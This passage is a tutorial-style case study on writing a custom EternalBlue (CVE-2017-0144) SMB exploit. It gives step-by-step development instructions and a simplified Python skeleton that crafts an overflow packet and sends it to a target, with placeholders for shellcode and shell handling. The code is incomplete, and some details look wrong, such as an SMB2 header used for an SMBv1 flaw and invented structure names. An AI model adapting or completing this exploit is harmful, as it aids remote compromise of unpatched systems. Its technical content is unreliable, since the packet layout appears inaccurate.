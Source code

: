 Let's consider a case study of writing a custom exploit for a known vulnerability. We'll use the EternalBlue vulnerability (CVE-2017-0144) as an example. EternalBlue is a vulnerability in Microsoft's implementation of the SMB protocol that can lead to remote code execution. 

Steps to develop a custom EternalBlue exploit:

```ad-summary
1. Understand the vulnerability: EternalBlue exploits a buffer overflow in the SMB protocol's handling of specially crafted packets. 
2. Analyze the target system: Determine the exact version of the vulnerable Windows system and its patch level. 
3. Craft the exploit packet: Create a malformed SMB packet that triggers the buffer overflow. 
4. Develop the shellcode: Write or obtain shellcode that will be executed after successful exploitation. 
5. Implement the exploit in Python: Use libraries like struct and socket to craft and send the exploit packet. 
6. Test and refine: Test the exploit in a controlled environment and refine as needed.
```

Here's a simplified example of how part of the EternalBlue exploit might be implemented in Python:

```python
import socket
import struct
from pyfiglet import figlet_format
import argparse


# Creating the SMB packet

def create_smb_packet():
    # Simplified SMB packet structure
    packet = b"\x00"  # Session message
    packet += b"\x00\x00\xc0"  # Length
    packet += b"\xfeSMB"  # SMB header
    # ... (Additional SMB header fields)

    # Crafted transaction request

    packet += b"\x32"  # Transaction opcode
    # ... (Additional transaction fields)

    # Overflow data
    packet += b"A" * 800  # Padding
    packet += struct.pack("<I", 0x08000000)  # Overwrite next parameter offset
    packet += b"B" * 4  # Overwrite WCT and BCC fields
    packet += b"C" * 4  # Overwrite pointer to READ_ANDX_RESPONSE_STRUCT
    packet += b"D" * 16  # Overwrite READ_ANDX_RESPONSE_STRUCT

    return packet


# Sending the exploit
def send_exploit(target_ip, target_port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target_ip, target_port))

    # Send SMB negotiation request
    # ... (code to send negotiation request)

    # Send crafted SMB packet
    exploit_packet = create_smb_packet()
    sock.send(exploit_packet)

    # Handle response and potential shell
    # ... (Code to handle response and interact with the shell)
```